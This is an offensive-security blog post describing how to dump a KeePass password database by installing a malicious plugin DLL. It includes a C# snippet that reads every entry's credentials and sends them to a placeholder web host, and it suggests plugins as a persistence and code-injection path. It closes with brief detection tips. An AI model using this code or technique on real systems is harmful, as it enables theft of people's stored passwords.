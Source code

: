 # **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. **Simply put, a single DLL on disk will extract the entire DB in plaintext.** While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).

![](assets/system041.png)

Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 

![](assets/system_scope.png)

With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. This felt like it would be very similar to [Chrome Extensions](Silently_Install_Chrome_Extension.md). After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). To install a plugin all you need to do is copy the DLL to the "/plugins" directory. So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".

![](assets/on_entry_copy.png)

Looking at that function you will see a "GetSafe" function being called for "Password".

![](assets/getsafe.png)

Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass's code as a reference and dump entries, avoiding calling the RTLDecryptMemory API directly. I provide a sample code below but you will need to work on getting the proper methods/variables called. The code below then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```

A sample plugin template can be found [here](https://keepass.info/plugins.html#testplugin)

### Video

![](assets/keypass_mov.gif)

### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 

![](assets/findmepassword.png)

Lastly why stick to Passwords only? Seems like a nice Persistence mechanism for code injection into a trusted process.

### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
